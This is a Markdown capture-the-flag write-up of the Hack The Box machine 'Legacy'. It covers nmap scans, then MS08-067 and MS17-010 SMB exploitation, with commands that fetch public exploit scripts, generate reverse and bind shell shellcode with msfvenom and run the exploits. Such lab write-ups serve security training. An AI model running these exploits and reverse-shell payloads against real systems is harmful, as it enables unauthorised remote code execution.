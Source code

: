 # Legacy Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA legacy 10.10.10.4``
### AND 
``nmap --script vuln 10.10.10.4``

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script vuln 10.10.10.4``

| smb-vuln-ms17-010:                                                                                                                                              
|   VULNERABLE:                                                                  
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)                                                                                     
|     State: VULNERABLE                 
|     IDs:  CVE:CVE-2017-0143                                                                                                                                     
|     Risk factor: HIGH                 
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                  
|        servers (ms17-010).                                                                                                                                      
|                                                                                                                                                                            
| smb-vuln-ms08-067:                                                                                                                                              
|   VULNERABLE:                         
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)                                                                                       
|     State: VULNERABLE                 
|     IDs:  CVE:CVE-2008-4250                                                    
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,                                                            
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary                                                          
|           code via a crafted RPC request that triggers the overflow during path canonicalization.

# ${{\color{purple}Exploitation}}\ $

###  smb-vuln-ms08-067 

https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

``wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py && chmod +x ms08-067.py``

### To know the OS and use the right option of the script you have to use this nmap command :


``nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4``

### if the exact version doesn't come up, you have to use several options of the script like n°1,5,6,7 for windows XP

### We have to change the shellcode in the exploit :

``msfvenom -p windows/shell_bind_tcp RHOST=10.10.16.5 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

### OR 

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

![image](https://user-images.githubusercontent.com/123066149/219029218-35a86849-f829-4449-931e-7892b00803c6.png)

### Modify the shellcode in the exploit :

![image](https://user-images.githubusercontent.com/123066149/219029627-bc940cd2-985b-4f9b-9597-52f9d7a9e07e.png)

``python ms08-067.py 10.10.10.4 6 445``

![image](https://user-images.githubusercontent.com/123066149/219029991-898620c3-7091-45a9-8021-183f3b50bb38.png)

It's possible to execute a different shellcode like a bind shell for example :

``msfvenom -p windows/shell_bind_tcp RHOST=10.10.10.4 LPORT=60001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

![image](https://user-images.githubusercontent.com/123066149/219030430-e9266aaa-2df1-41a7-ab0c-77bff585d1c3.png)

``python ms08-067.py 10.10.10.4 6 445``

![image](https://user-images.githubusercontent.com/123066149/219030681-b233041e-15ba-4652-b40b-1e58a4e505fc.png)

### smb-vuln-ms17-010


https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/zzz_exploit.py

``git clone https://github.com/3ndG4me/AutoBlue-MS17-010``

### The machine is also vulnerable to smb-vuln-ms17-010
### For the exploitation I used the scripts : Autoblu because they are the only ones to be python3+ compatible
### I used eternal_checker to find the named pipes

``python eternal_checker.py -target-ip 10.10.10.4 -port 445 htb.local``

![image](https://user-images.githubusercontent.com/123066149/219063977-ac520366-70fd-412c-b3b6-48a5421032ec.png)

### And I used the zzz exploit because it's the only one compatible with old OS :

``python zzz_exploit.py -target-ip 10.10.10.4 -port 445 -pipe browser htb.local``

![image](https://user-images.githubusercontent.com/123066149/219064409-85575f53-df8a-4d9f-b441-8b2bdb9d8a18.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc services running as system

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to reset the machines if the exploit doesn't work, after a bad attempt.
* The machine is no longer exploitable if there is a bad attempt.
* Named pipes are a way for running processes to communicate with each other with very little overhead.
* Pipes usually appear as files for other processes to attach to. 
